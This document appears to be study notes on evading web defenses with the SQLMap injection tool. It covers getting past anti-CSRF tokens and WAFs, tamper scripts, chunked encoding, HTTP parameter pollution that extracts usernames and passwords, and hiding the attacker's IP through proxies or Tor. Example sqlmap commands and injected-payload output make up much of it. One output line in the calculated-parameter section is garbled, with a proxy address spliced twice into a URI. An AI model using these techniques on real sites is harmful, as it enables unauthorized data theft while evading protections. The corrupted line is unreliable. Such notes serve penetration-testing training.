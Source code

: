 ## Anti-CSRF Token Bypass
* SQLMap has options that can help in bypassing anti-CSRF protection
* Most important option is `--csrf-token`

```sh
$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 22:18:01 /2020-09-18/

POST parameter 'csrf-token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] y
```

## Unique Value Bypass
* Web application may only require unique values to be provided inside predefined parameters
	* Similar to the anti-CSRF technique
* The option `--randomize` should be used, pointing to the parameter name containing a value which should be randomized before being sent

```sh
$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

## Calculated Parameter Bypass
* Web application expects a proper parameter value to be calculated based on some other parameter value(s)
* Most often md5 over some attribute e.g. `h=MD5(id)`
* Option `--eval` should be used, where a valid Python code is being evaluated just before the request is being sent to the target

```shell-session
$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

## IP Address Concealing
* If we want to conceal our IP address, or we are blacklisted, we can try to use a proxy or the anonymity network Tor  `--tor` or `--proxy` (e.g. `--proxy="socks4://177.39.187.70:33283"`) or a proxy list  `--proxy-file`
* We can check if tor is working correctly by using  `--check-tor`

## WAF Bypass
* SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. `?pfov=...`) to test for the existence of a WAF (Web Application Firewall)
	* If popular WAF solution is used  `406 - Not Acceptable` response after such a request
	* SQLMap uses a third-party library [identYwaf](https://github.com/stamparm/identYwaf) to identify which one is used
* We can skip this heuristic test with `--skip-waf`

## User-agent Blacklisting Bypass
* If we get HTTP error code 5XX from the start
	* Potential blacklisting of the default user-agent used by SQLMap (e.g. `User-agent: sqlmap/1.4.9 (http://sqlmap.org)`)
* Bypass with the switch `--random-agent`

**Note**: If some form of protection is detected during the run, we can expect problems with the target, even other security mechanisms. The main reason is the continuous development and new improvements in such protections, leaving smaller and smaller maneuver space for attackers.

## Tamper Scripts
* One of the most popular mechanisms implemented to bypass WAF/IPS
* Special kind of (Python) scripts written for modifying requests just before being sent to the target
	* Most popular tamper scripts [between](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/between.py)
	* Replaces all occurrences of greater than operator (`>`) with `NOT BETWEEN 0 AND #`, and the equals operator (`=`) with `BETWEEN # AND #`
* Many primitive protection mechanisms (focused mostly on preventing XSS attacks) are easily bypassed
* Can be chained  `--tamper` option (e.g. `--tamper=between,randomcase`)
* Most notable tamper scripts (`--list-tampers`)

![](Screenshot_2022-10-26_014706.png)

## Miscellaneous Bypasses
* `Chunked` transfer encoding, turned on using the switch `--chunked`
	* Splits the POST request's body into so-called "chunks"
* Blacklisted SQL keywords are split between chunks in a way that the request containing them can pass unnoticed
* `HTTP parameter pollution` (`HPP`)
	* Payloads are split in a similar way as in case of `--chunked` between different same parameter named values (e.g. `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`), which are concatenated by the target platform if supporting it (e.g. `ASP`)